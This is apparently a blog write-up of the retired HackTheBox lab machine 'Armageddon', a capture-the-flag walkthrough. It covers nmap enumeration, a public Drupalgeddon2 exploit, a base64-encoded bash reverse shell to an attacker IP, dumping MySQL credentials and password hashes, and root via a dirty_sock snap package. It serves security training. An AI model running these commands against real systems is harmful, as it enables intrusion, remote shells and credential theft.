 ```yaml
---
layout: post
title: "HackTheBox - Armageddon"
subtitle: "Armageddon."
date: 2021-06-05 23:45:13 -0400
background: '/img/blue_wave.jpg'
---
```


# Introduction

This is a write-up for a retired "easy" HackTheBox machine - Armageddon.

# Enumeration

Standard nmap scan reveals two open ports : 

```bash
sudo nmap -sV -sC -oA armageddon 10.10.10.233

```

![Drupal 7 revealed](/img/posts/htb-armageddon/nmap-scan-drupal.png)

Note the highlighted text - Drupal 7. This is an outdated version, though it does still receive security updates from time to time. Lets try to enumerate the exact version further.

Let's check /CHANGELOG.txt. This is file is shown in nmap scan as it's located in /robots.txt entry. 

![Drupal 7 exact verison](/img/posts/htb-armageddon/drupal7-exact-version.png)

# Exploitation


It seems this CMS hasn't been updated in some time. After checking and trying default credentials I went for the simple thing and just used Google Search.

![Drupal 7 exploit](/img/posts/htb-armageddon/drupa7-google-search.png)

Lots of hits and the name of the exploit suggest this might be it. HackTheBox often names their boxes similar to the exploit used. In this case "Armageddon" - "Drupalgeddon".

Now I understand there is a perfectly fine Metasploit module **exploit/unix/webapp/drupal_drupalgeddon2** that can exploit the server, however, I find it too dull. So I managed to find another exploit. The only thing to do is to clone it with git :

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
```

And run it :

![Gem missing for the Drupalgeddon exploit](/img/posts/htb-armageddon/exploit-gem-missing.png)

Snap! There is a ruby gem missing - **highline** . Let's install it.

![Installing missing ruby gem](/img/posts/htb-armageddon/exploit-installing-gem.png)

Since I'm running ParrotOS I needed to run the *gem* command as root. Now that this is done let's run the exploit.

![Working exploit](/img/posts/htb-armageddon/exploit-works.png)

It works! We are user *apache* in this pseudo-shell. Let's try to get the proper one. 

My first thought was to check for netcat on the system and if netcat is not present to run a simple **sh** reverse shell.

![No Netcat and bad character](/img/posts/htb-armageddon/exploit-no-nc-bad-char.png)

However, there is no netcat present (at least in my path) and the ">" character is a bad character for our flimsy shell. So when this happens my go-to tool is the base64. Let's encode our command and send it so it can be decoded on the other side and properly executed.

```bash
echo -n "sh -i >& /dev/tcp/10.10.14.70/80 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvODAgMD4mMQ==
```

Set up a netcat listener:

```bash
sudo nc -nlvp 80
```

Now on the target :

```bash
echo -n "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvODAgMD4mMQ==" | base64 -d | bash
```

This gives a shell back :

![Shell returned as apache](/img/posts/htb-armageddon/apache-shell.png)


# Elevation To User

Since getting a proper tty on this box was not successful, I checked the Drupal default configuration location and found that its in /sites/default :


![Drupal default configuration](/img/posts/htb-armageddon/drupal-filesystem.png)

After going inside of that directory I saw *settings.php* :

```bash
sh-4.2$ pwd
pwd
/var/www/html/sites/default
sh-4.2$ ls
ls
default.settings.php
files
settings.php
sh-4.2$ 
```

After checking out settings.php I noticed the mysql credentials -
**drupaluser:CQHEy@9M*m23gBVj** :

![Mysql credentials](/img/posts/htb-armageddon/drupal-mysql.png)

Entering MySQL database without a proper shell is not going to be possible for us, so I just queried the database line by line :

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
```

Note that typing **-p CQHEy@9M*m23gBVj** did not work for me, so I had to connect the parameter and the password value.
After checking out the tables I saw the *users* table. So I queried it :

![Mysql user table](/img/posts/htb-armageddon/mysql-users-tables.png)

Yes, it's a mess. I could specify to query for columns *name* and *pass* to make it more pretty with :

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

So we have the username brucetherealadmin (which was an entry in /etc/passwd), and an MD5 hash :

```
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

Time to crack it with John :

![Cracking the hash with John](/img/posts/htb-armageddon/crackingthehash.png)

So the credentials are :

```
brucetherealadmin:booboo
```

Now to ssh :

![SSH into user *brucetherealadmin*](/img/posts/htb-armageddon/brucessh.png)

And we can see that the user flag has 33 characters :

![User flag](/img/posts/htb-armageddon/userflag.png)


# Privilege Escalation


Since nothing else was in our home folder I just decided to go the the easy wins and just did *sudo -l* so I can check if we can run anything with root privileges:

![Can run snap as root](/img/posts/htb-armageddon/sudo-l.png)

So we can install any snap package as root. I ran a simple google search :

![Running a google search](/img/posts/htb-armageddon/snap-google-search.png)

This article was the first hit and it explains that a popular exploit dirty_sock version 2 creates a snap package that adds a new user.

![Checking the article](/img/posts/htb-armageddon/snap-dirty-sock.png)

While the [dirty-sockv2.py](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) from Github doesn't work - it does contain a python base64 encoded string which we can use to install a snap package manually. Let's try it :

```bash
python2 -c 'print "aHNxcwcAAA...." + "A"*4256 + "=="' | base64 -d
```

![Creating the snap](/img/posts/htb-armageddon/creating-the-snap.png)

After this we can switch to user *dirty_sock* :

![User dirty_sock](/img/posts/htb-armageddon/dirty-sock-user.png)

Now all we need to do is run *sudo -i* :

![Sudo -i for the root shell](/img/posts/htb-armageddon/root.png)

Rooted.



# Conclusion & Tips

This box demonstrated a typical low-hanging fruit grab - eg. that looks like the obvious thing it is the right way in.

Privilege escalation was quite interesting since it involves using an already made piece of code of a popular exploit *dirty_sock* and running the snap install command in **--devmode** - which enables an installation of a snap package without enforcing security policies. 

# Resources

[Drupal 7 Drupalgeddon exploit](https://github.com/dreadlocked/Drupalgeddon2/blob/master/drupalgeddon2.rb)

[Dirty Sock Exploit explained](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

[Dirty Sock Version 2 - Snapd](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py)

